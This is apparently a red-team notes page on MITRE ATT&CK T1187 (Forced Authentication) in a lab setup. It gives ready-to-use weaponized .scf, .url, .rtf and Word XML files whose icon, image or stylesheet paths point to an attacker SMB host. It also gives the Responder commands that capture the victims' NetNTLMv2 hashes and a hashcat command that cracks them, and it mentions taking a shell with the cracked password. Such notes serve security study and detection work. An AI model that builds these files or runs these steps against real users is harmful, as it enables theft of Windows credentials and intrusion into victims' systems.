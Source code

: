```yaml
---
description: 'Credential Access, Stealing hashes'
---
```


# T1187: Forced Authentication

## Execution via Hyperlink

Let's create a Word document that has a hyperlink to our attacking server where  `responder` will be listening on port 445:

![](../.gitbook/assets/forced-auth-word.png)

{% file src="../.gitbook/assets/totes-not-a-scam.docx" caption="Forced SMBv2 Authentication - MS Word File" %}

Let's start `Responder` on our kali box:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
responder -I eth1
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the link in the document is clicked, the target system sends an authentication request to the attacking host. Since responder is listening on the other end, victim's `NetNTLMv2` hash is captured:

![](../.gitbook/assets/forced-auth-hashes.png)

The retrieved hash can then be cracked offline with hashcat:

```csharp
hashcat -m5600 /usr/share/responder/logs/SMBv2-NTLMv2-SSP-10.0.0.2.txt /usr/share/wordlists/rockyou.txt --force
```

Success, the password is cracked:

![](../.gitbook/assets/forced-auth-cracked.png)

Using the cracked passsword to get a shell on the victim system:

![](../.gitbook/assets/forced-auth-shell%20%281%29.png)

## Execution via .SCF

Place the below `fa.scf` file on the attacker controlled machine at `10.0.0.7` in a shared folder `tools`

{% code-tabs %}
{% code-tabs-item title="\\\\10.0.0.7\\tools\\fa.scf" %}
```csharp
[Shell]
Command=2
IconFile=\\10.0.0.5\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% file src="../.gitbook/assets/fa.scf" caption="fa.scf" %}

A victim user `low` opens the share `\\10.0.0.7\tools` and the `fa.scf` gets executed automatically, which in turn forces the victim system to attempt to authenticate to the attacking system at 10.0.0.5 where responder is listening:

![victim opens \\10.0.0.7\tools, fa.scf executes and gives away low&apos;s hashes](../.gitbook/assets/forced-auth-shares.png)

![user&apos;s low hashes were received by the attacker](../.gitbook/assets/forced-auth-scf.png)

What's interesting with the `.scf` attack is that the file could easily be downloaded through the browser and as soon as the user navigates to the `Downloads` folder, users's hash is stolen:

![](../.gitbook/assets/forced-auth-downloads.png)

## Execution via .URL

Create a weaponized .url file and upload it to the victim system:

{% code-tabs %}
{% code-tabs-item title="c:\\link.url@victim" %}
```csharp
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.0.0.5\%USERNAME%.icon
IconIndex=1
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Create a listener on the attacking system:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
responder -I eth1 -v
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the victim navigates to the C:\ where `link.url` file is placed, the OS tries to authenticate to the attacker's malicious SMB listener on `10.0.0.5` where NetNTLMv2 hash is captured:

![](../.gitbook/assets/forced-authentication-url.gif)

## Execution via .RTF

Weaponizing .rtf file, which will attempt to load an image from the attacking system:

{% code-tabs %}
{% code-tabs-item title="file.rtf" %}
```csharp
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://10.0.0.5/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Starting authentication listener on the attacking system:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
responder -I eth1 -v
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Executing the file.rtf on the victim system gives away user's hashes:

![](../.gitbook/assets/rtf-hashes.gif)

## Execution via .XML

MS Word Documents can be saved as .xml:

![](../.gitbook/assets/screenshot-from-2018-12-09-16-23-39.png)

This can be exploited by including a tag that requests the document stylesheet \(line 3\) from an attacker controlled server. The victim system will share its NetNTLM hashes with the attacker when attempting to authenticate to the attacker's system:

```markup
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<?mso-application progid="Word.Document"?>
<?xml-stylesheet type="text/xsl" href="\\10.0.0.5\bad.xsl" ?>
```

Below is the attack illustrated:

![](../.gitbook/assets/peek-2018-12-09-16-44.gif)

{% file src="../.gitbook/assets/test-xls-stylesheet.xml" caption="test-xls-stylesheet.xml" %}

## References

{% embed url="http://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf" %}

{% embed url="https://www.bleepingcomputer.com/news/security/you-can-steal-windows-login-credentials-via-google-chrome-and-scf-files/" %}

{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}

{% embed url="https://medium.com/@markmotig/a-better-way-to-capture-hashes-with-no-user-interaction-by-markmo-bd1569bfa208" %}

{% embed url="https://bohops.com/2018/08/04/capturing-netntlm-hashes-with-office-dot-xml-documents/" %}

